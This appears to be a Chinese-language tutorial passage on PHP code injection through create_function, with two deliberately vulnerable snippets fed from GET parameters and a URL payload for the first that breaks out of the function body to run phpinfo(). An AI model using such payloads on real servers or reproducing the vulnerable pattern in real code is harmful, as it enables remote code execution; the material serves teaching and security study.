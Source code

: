 ### 实现代码注入的案例

#### 案例1：

```php
<?php
error_reporting(0);
$sort_by = $_GET['sort_by'];
$sorter = 'strnatcasecmp';
$databases=array('1234','4321');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

`payload`的构造：

```
http://localhost/test1.php?sort_by=%27%22]);}phpinfo();/*
```

![img](http://cdn.ayusummer233.top/img/1937992-20200528133704647-1679751324.png)

 

 

 

还原实际的组合过程：

```
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

匿名函数实际的执行：

```
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
}
```

回车换行整理一下：

```
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);
}
phpinfo();/*
}
```

#### 案例2：

```
<?php
$c=$_GET['c'];
$lambda=create_function('$a,$b',"return (strlen($a)-strlen($b)+" . "strlen($c));");
$array=array('reall long string here,boy','this','midding lenth','larget');
usort($array,$lambda);
print_r($array);
?>
```
